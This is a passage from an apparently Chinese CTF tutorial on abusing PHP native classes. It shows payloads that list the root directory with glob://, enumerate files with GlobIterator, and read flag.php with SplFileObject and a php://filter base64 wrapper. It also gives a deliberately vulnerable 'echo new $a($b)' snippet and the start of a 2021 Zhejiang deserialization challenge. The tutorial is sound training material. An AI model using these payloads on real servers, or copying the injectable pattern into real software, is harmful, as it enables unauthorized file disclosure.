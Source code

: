 我们输入 `/?whoami=glob:///*` 即可列出根目录下的文件：



### GlobIterator

GlobIterator和另外两个类差不多，不过glob是GlobIterator类本身自带的，因此在遍历的时候，就不需要带上glob协议头了，只需要后面的相关内容

```php
?a=GlobIterator&b=f[a-z]*
```



### SplFileObject

SplFileObject类为文件提供了一个面向对象接口，也就是这个类可以用来读文件

```php
<?php
$a = $_GET['a'];
$b = $_GET['b'];
echo new $a($b);
```

我们传入?a=SplFileObject&b=flag.php，即可读取我们flag.php里面的内容，但是他只能读一行！！！

![img](assets/1680187563227-6b06a00a-8e0d-4a62-bb6f-45e4521cffb6.png)

除了直接传文件名之外，我们是不是可以联系到php伪协议呢？不妨来试试，传入如下payload

```php
?a=SplFileObject&b=php://filter/convert.base64-encode/resource=flag.php
```



#### 2021浙江网络安全省赛Web2

```
<?php
error_reporting(0);
class A1{
    public $tmp1;
    public $tmp2;
    public function __construct()
    {
        echo "Enjoy Hacking!";
    }
    public function __wakeup()
    {
        $this->tmp1->hacking();
    }
}
class A2
{
    public $tmp1;
```